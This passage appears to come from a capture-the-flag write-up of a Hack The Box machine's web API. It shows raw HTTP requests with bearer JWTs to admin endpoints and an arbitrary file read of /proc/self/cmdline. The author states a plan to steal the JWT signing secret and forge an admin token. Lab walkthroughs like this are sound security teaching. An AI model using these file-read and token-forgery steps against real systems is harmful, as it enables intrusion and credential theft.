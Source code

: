 ```http
GET /api/v1/admin/exec/whoami HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMxMTUyLCJpYXQiOjE2NTg5Mzk5NTIsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOmZhbHNlLCJndWlkIjoiOGE1ODY4MTgtN2MwMS00YzhiLTg3ZmItZTE3ZTRlYTU0NTc3In0.Hjw6uONnhht4gMq3-xb6s_WAbKqCdSdF8LA7Tb-b9rg
Content-Length: 2
```
As we can see as a response we get:  
```http
HTTP/1.1 400 Bad Request
date: Wed, 27 Jul 2022 17:07:56 GMT
server: uvicorn
content-length: 39
content-type: application/json
Connection: close

{"detail":"Debug key missing from JWT"}
```
So now, we can assume that to make this work we'll need to forge a new JWT token containing the debug key.  
To do this, we'll need to sign a new JWT token. As we know, to sign a new JWT token we'll need the secret.  
To try to obtain the seecret, we can use the `/file` endpoint.  
First of all we can get some information from proc.  
We can check for `/proc/self/cmdline`:
```http
POST /api/v1/admin/file HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Content-Type: application/json
Origin: http://10.10.11.161
Content-Length: 34
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMzMjE5LCJpYXQiOjE2NTg5NDIwMTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQifQ.6pBW4BPGXUva9_et2wRTmi69Iy9h7Oxs4vssoNTXh2s

{
  "file": "/proc/self/cmdline"
}
```
And as a response we get:  
```http
HTTP/1.1 200 OK
date: Wed, 27 Jul 2022 17:15:15 GMT
server: uvicorn
content-length: 175
content-type: application/json
Connection: close

{"file":"/home/htb/uhc/.venv/bin/python3\u0000-c\u0000from multiprocessing.spawn import spawn_main; spawn_main(tracker_fd=5, pipe_handle=7)\u0000--multiprocessing-fork\u0000"}
```
